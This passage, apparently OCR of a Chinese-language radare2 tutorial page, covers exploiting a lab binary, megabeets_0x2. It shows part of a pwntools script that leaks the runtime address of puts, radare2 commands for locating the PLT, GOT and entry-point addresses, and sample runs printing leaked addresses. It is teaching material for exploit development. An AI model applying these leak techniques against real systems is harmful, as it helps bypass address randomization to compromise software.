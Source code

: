 ```python
    p.sendline(payload)

    # Take 4 bytes of the output
    leak = p.recv(4)
    leak = u32(leak)
    log.info("puts is at: 0x%x" % leak)
    p.clean()


if __name__ == "__main__":
    main()
```

我们需要填充`puts@plt`和`puts@got`的地址，以及程序的入口点。让我们回到`radare2`并执行以下命令。字符`#`用于注释，字符`~`是`radare2`的 shell 中的内置`grep`。

```shell
[0xf7763b30]> # the address of puts@plt:
[0xf7763b30]> ?v sym.imp.puts
0x08048390
[0xf7763b30]> # the address of puts@got:
[0xf7763b30]> ?v reloc.puts_20
0x0804a014
[0xf7763b30]> # the address of program’s entry point (entry0):
[0xf7763b30]> ieq
0x080483d0
```

`sym.imp.puts`和`reloc.puts_20`是`radare2`自动检测到的标志。命令`ie`表示`Information Entrypoint`。

现在我们填入我们找到的地址：

```python
...

# Addresses
puts_plt = 0x8048390
puts_got = 0x804a014
entry_point = 0x80483d0

...
```

我们执行一下脚本：

```shell
$ python exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23578
[*] puts is at: 0xf75db710
[*] Stopped process ‘./megabeets_0x2’ (pid 23578)

$ python exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23592
[*] puts is at: 0xf7563710
[*] Stopped process ‘./megabeets_0x2’ (pid 23592)

$ python exploit.py
[+] Starting local process ‘./megabeets_0x2’: pid 23606
[*] puts is at: 0xf75e3710
[*] Stopped process ‘./megabeets_0x2’ (pid 23606)
```
